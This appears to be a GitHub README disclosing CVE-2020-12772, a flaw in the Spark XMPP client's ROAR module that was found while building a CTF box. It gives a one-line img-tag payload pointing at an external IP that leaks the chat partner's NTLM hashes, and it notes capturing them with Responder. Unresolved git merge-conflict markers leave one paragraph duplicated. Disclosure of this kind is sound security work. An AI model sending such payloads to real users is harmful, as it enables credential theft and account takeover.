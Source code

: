 # CVE-2020-12772

## Description
<<<<<<< HEAD
When @4nqr34z and myself, @theart42, were building a CTF box, we came accross an interesting
=======

When [@4nqr34z](https://twitter.com/4nqr34z) and myself, [@theart42](https://twitter.com/theart42), were building a CTF box, we came accross an interesting
>>>>>>> 2e226274aae6df71614d40d24e76348b882194de
vulnerability in the Spark XMPP client and its ROAR module.

![Spark client](pictures/spark_client.png)

When we opened a chat with another user, we could send an `<img ` tag to that user with an
external URL as the source of that image, like this:

`<img src=[external_ip]/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external
server receives the request for the image, together with the NTLM hashes from the user that visits
the link, i.e. the user you are chatting with!

## Exploitation
For our CTF box, this was golden. By running responder, we could capture the hashes and use them
to gain access to the user account and escalate our privileges (depending on the user of course).

![Responder](pictures/responder.png)

## Mitigation
The developer has been notified and a fix is underway
